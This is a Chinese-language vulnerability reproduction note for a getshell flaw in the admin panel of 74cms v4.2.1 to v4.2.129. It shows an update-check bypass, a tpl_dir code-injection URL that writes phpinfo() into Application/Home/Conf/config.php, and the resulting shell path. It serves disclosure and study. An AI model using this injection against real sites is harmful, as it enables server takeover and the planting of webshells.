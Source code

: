 # 74cms v4.2.1 v4.2.129 后台getshell漏洞

# 74cms v4.2.1 v4.2.129 后台getshell漏洞

## 漏洞描述

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 漏洞复现

### 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

### 漏洞演示

![image-20221207161107878](images/image-20221207161107878.png)

url:

```
 http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```

shell:

```
http://74cms.test/Application/Home/Conf/config.php
```

路径：

```
\74cms\upload\Application\Home\Conf\config.php
```

![image-20221207161145037](images/image-20221207161145037.png)

![image-20221207161151234](images/image-20221207161151234.png)

